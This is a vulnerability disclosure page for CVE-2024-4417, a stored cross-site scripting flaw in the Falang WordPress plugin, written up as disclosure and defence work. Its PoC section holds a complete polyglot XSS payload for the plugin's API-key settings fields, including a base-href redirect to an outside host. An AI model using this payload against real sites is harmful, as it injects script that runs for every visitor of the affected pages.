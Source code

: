 ```yaml
---
layout: page
title: CVE-2024-4417
subtitle: Falang multilanguage for WordPress <= 1.3.49 - Authenticated (Administrator+) Stored Cross-Site Scripting
---
```

## Description
The Falang multilanguage for WordPress plugin for WordPress is vulnerable to Stored Cross-Site Scripting via admin settings in all versions up to, and including, 1.3.49 due to insufficient input sanitization and output escaping. This makes it possible for authenticated attackers, with administrator-level permissions and above, to inject arbitrary web scripts in pages that will execute whenever a user accesses an injected page. This only affects multi-site installations and installations where unfiltered_html has been disabled.

## Severity
 4.4 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N)

## Affected Version
    <= 1.3.49

## PoC :
```
- Go To Falang/Settings
- Put this payload on field "Google translate API Key","Microsoft Azure API Key","Lingvanex API Key"
```
JavaScript://%0A/*?'/*\\'/*"/*\\"/*`/*\\`/*&apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(confirm)(1+2+3+4+5+6+7+8+9+10+11+12+13+14+15+16+17+18+19+20+45+500+1000-400-20+2)}//><Base/Href=//ener1-s3c.github.io\\76-->
```
- Update settings
```

## Refrence
- https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3082466%40falang%2Ftrunk&old=3059173%40falang%2Ftrunk&sfp_email=&sfph_mail=
- https://www.cve.org/CVERecord?id=CVE-2024-4417
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/falang/falang-multilanguage-for-wordpress-1349-authenticated-administrator-stored-cross-site-scripting





